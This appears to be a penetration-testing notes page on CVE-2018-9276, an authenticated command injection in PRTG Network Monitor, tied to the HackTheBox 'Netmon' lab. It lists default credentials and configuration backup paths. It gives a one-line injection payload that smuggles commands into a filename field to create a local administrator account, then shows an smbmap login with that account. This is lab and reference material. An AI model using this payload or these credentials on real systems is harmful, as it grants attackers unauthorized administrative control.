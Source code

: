 ```yaml
---
description: PRTG Network Monitor 18.2.38 - Remote Code Execution
---
```


# CVE-2018-9276

<mark style="color:yellow;">**PRTG Network Monitor 18.2.38**</mark> <mark style="color:purple;">**-**</mark>**  **<mark style="color:red;">**Remote Code Execution**</mark>** **<mark style="color:purple;">**-**</mark> <mark style="color:blue;">**Windows**</mark>

<mark style="color:purple;">**Vulnerability:**</mark>** (**<mark style="color:yellow;">**Authenticated**</mark>**)** <mark style="color:purple;">PRTG System Administrator web console with administrative privileges can exploit an OS command injection vulnerability (both on the server and on devices) by sending malformed parameters in sensor or notification management scenarios.</mark>

<mark style="color:yellow;">PRTG Network Monitor</mark> <mark style="color:purple;">-</mark> <mark style="color:red;">Default credentials</mark> <mark style="color:purple;">--></mark> <mark style="color:red;">`prtgadmin/prtgadmin`</mark>

<mark style="color:purple;">If FTP open In</mark> <mark style="color:yellow;">`\ProgramData\Paessler\PRTG Network Monitor`</mark><mark style="color:purple;">, I’ll find information about the</mark> <mark style="color:yellow;">PRTG Network Monitor application</mark><mark style="color:purple;">:</mark>

```
Configuration Auto-Backups
PRTG Configuration.dat
PRTG Configuration.old.bak

```

<mark style="color:purple;">Command Injection from web console:</mark>

```
#Create a user and give it admin priv
test.txt;net user anon p3nT3st! /add;net localgroup administrators anon /add
#login as the new user
smbmap -H 10.10.10.152 -u anon -p "p3nT3st!"
```

<mark style="color:purple;">**Score:**</mark>** **<mark style="color:blue;">**CVSS v2.0**</mark><mark style="color:purple;">**:**</mark>** **<mark style="color:yellow;">**`9`**</mark>** **<mark style="color:purple;">**//**</mark>** **<mark style="color:blue;">**CVSS v3.x**</mark><mark style="color:purple;">**:**</mark>** **<mark style="color:yellow;">**`7.2`**</mark>

<mark style="color:purple;">**Shows on:**</mark>&#x20;

* <mark style="color:green;">**HTB Netmon**</mark>

<mark style="color:purple;">**POC:**</mark>

{% embed url="https://codewatch.org/2018/06/25/prtg-18-2-39-command-injection-vulnerability/" %}

#### <mark style="color:purple;">**POC: Python / Msfvenom**</mark>

{% embed url="https://github.com/A1vinSmith/CVE-2018-9276" %}

<mark style="color:purple;">**POC:**</mark>

{% embed url="https://www.exploit-db.com/exploits/46527" %}

<mark style="color:purple;">**Resources:**</mark>

{% embed url="https://vuldb.com/?id.120169=" %}

{% embed url="https://nvd.nist.gov/vuln/detail/CVE-2018-9276" %}

{% embed url="https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-9276" %}
